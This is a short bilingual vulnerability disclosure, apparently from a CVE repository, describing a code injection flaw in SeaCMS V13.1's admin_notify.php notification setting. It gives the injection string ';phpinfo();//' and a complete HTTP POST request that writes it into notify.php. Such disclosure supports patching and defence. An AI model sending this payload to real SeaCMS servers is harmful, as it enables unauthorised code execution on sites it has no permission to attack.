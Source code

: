 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103209.png)

https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.

*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103256.png)
## Verify
*证明*
Backend: User ->Member Message Notification ->Notification

*后台:用户->会员消息通知->通知*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code

*成功注入代码*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103552.png)

```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.php file.

*恶意代码成功写入notify.php文件中*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103740.png)